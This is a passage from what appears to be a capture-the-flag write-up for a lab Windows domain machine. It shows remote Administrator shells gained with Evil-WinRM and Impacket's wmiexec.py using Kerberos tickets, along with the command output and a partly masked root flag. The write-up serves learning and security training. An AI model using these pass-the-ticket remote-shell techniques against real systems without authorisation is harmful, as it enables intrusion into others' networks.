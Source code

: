 
### Shell

#### Evil-WinRM

Now I can connect over [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
using just the hostname and the realm:

    
    
    oxdf@hacky$ evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

Or to use the ticket generated by `getTGT.py`:

    
    
    oxdf@hacky$ KRB5CCNAME=./administrator.ccache evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

From here I can grab the flag:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    1a921d83************************
    

#### wmiexec.py

Impacket tools like `wmiexec.py` will work as well:

    
    
    oxdf@hacky$ KRB5CCNAME=./administrator.ccache wmiexec.py windcorp.htb/administrator@hathor.windcorp.h
    tb -k -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                                  
    
    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>
    

I can use the default ticket, but only if i specify the location:

    
    
    oxdf@hacky$ wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [-] CCache file is not found. Skipping...
    [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
    